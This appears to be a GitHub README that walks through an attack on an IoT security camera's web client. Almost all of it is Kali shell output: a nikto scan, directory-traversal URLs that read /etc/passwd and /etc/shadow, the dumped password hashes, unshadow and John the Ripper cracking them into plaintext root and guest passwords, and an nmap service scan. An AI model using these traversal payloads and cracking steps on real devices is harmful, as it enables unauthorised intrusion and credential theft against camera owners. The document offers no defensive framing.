 # Web Client Security Camera

# IoT Device Security Camera

<img src="https://raw.githubusercontent.com/0x01369/Web-Client-Security-Camera/main/appName.png" class="shrinkToFit" width="350" height="55">

<img src="https://raw.githubusercontent.com/0x01369/Web-Client-Security-Camera/main/Login_LoginContent.png" class="shrinkToFit" width="693" height="236">

+ root@kali:~$  nikto -h 192.168.1.11

+ ---------------------------------------------------------------------------
+ Target IP:          192.168.1.11
+ Target Port:        80
+ ---------------------------------------------------------------------------
+ /%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd: The Web_Server_4D is vulnerable to a directory traversal problem.
+ /../../../../../../../../../../etc/passwd: It is possible to read files on the server by adding ../ in front of file name.
+ /%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd: Web server allows reading of files by sending encoded '../' requests. This server may be Boa +(boa.org).
+ OSVDB-3133: ////////../../../../../../etc/passwd: Xerox WorkCentre allows any file to be retrieved remotely.
+ ---------------------------------------------------------------------------

+ http://192.168.1.11/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
+ http://192.168.1.11/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow

+ /etc/passwd

+ root:x:0:0:root:/:/bin/sh
+ guest:x:1000:1000:Linux User,,,:/:/bin/sh

+ /etc/shadow

+ root:3kzd9/xqjB.3k:16772:0:99999:7:::
+ guest:IhQlNqID7twUk:16772:0:99999:7:::

+ root@kali:~$ unshadow /root/Desktop/passwd /root/Desktop/shadow > /root/Desktop/status

+ root:3kzd9/xqjB.3k:0:0:root:/:/bin/sh
+ guest:IhQlNqID7twUk:1000:1000:Linux User,,,:/:/bin/sh

+ root@kali:~$ john /root/Desktop/status

+ Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])
+ Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
+ 1001chin         (root)
+ 123456           (guest)

+ root@kali:~$ map -sS -sV 192.168.1.11

+ Starting Nmap 7.91 ( https://nmap.org )
+ PORT     STATE SERVICE    VERSION
+ 80/tcp    open  tcpwrapped
+ 8080/tcp  open  http       Mini web server 1.0 (ZTE ZXV10 W300 ADSL router http config)
+ 58000/tcp open  http       CPE Server TR-069 remote access 1.0
|_http-server-header: CPE-SERVER/1.0 Supports only GET
|_http-title: Site doesn't have a title.
+ 17000/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     head
|   GenericLines: 
|     head
|     1111
|     1111
|     1111
|     1111
|   Help, NULL: 
|     head
|     1111
|_    1111
